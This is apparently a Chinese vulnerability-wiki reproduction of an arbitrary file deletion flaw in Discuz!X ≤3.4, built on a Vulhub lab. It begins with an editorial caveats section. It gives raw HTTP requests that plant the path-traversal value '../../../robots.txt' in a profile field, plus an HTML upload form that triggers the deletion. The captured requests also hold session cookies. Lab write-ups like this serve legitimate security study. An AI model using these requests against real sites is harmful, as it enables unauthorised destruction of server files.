






## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.4 pre-fix; ordinary user and formhash; profile traversal then file upload

- **凭据与会话边界（1）**：Same two-stage text/mechanism as97; adds useful Cookie/Referer repair for cross-origin upload form。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：Host changes128→222 vs Origin159 across examples; normalize target。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（3）**：Version needs commit cutoff; first request contains unrelated AuthSession cookie。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **结论使用边界（4）**：Precise original research link and lab details complement97。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Discuz!X ≤3.4 任意文件删除漏洞

## 漏洞描述

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 漏洞影响

```
Discuz!X ≤3.4
```

## 环境搭建

Vulhub执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

启动后，访问`http://your-ip/install/`来安装discuz，只用修改数据库地址为`db`，其他保持默认即可。




## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：




注册用户后，在个人设置页面找到自己的formhash：




带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.174.128
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW8uA1wbCsmuiargU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.128/home.php?mod=spacecp&ac=profile&op=base
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=dGhyZWVraTo2MjE0NEM0Mzrhe4V-bNxBqV-1RKA7mJS_YQrC9A; ot6_visitedfid=2; ot6_sid=9yWYy0; et56_2132_saltkey=qN7vqIdT; et56_2132_lastvisit=1645503280; et56_2132_sid=Ze005m; et56_2132_seccode=1.526c82122231460dd9; et56_2132_ulastactivity=6467KkrgcKDQNmUlDxKLd592a6DUvLlRSPU4g07eDld2bKtFo3JU; et56_2132_auth=45cdTg%2F0tTayn1c5i6fOd%2F96K8vGKx7SVg9MgaAoLalS102hICOtVzWjuDHbYtyyH8Rqe54O1WS9d%2Fa0s%2FIV; et56_2132_nofavfid=1; et56_2132_onlineusernum=1; et56_2132_noticeTitle=1; et56_2132_lastact=1645507206%09home.php%09misc
Connection: close

------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="formhash"

d32e951d
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="profilesubmit"

true
------WebKitFormBoundaryW8uA1wbCsmuiargU--
```




提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：


说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。如果遇到下图这样的情况，需要修改数据包。




Burpsuite抓包，将Refer和Cookie替换为正常上传数据包的值。

```
POST /home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=d32e951d HTTP/1.1
Host: 192.168.174.222
Content-Length: 3685
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.159
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKSoP7vDw487SX9LO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: [替换为http://192.168.174.128/home.php?mod=spacecp]
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: [替换为正常上传的C]
Connection: close
```

此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
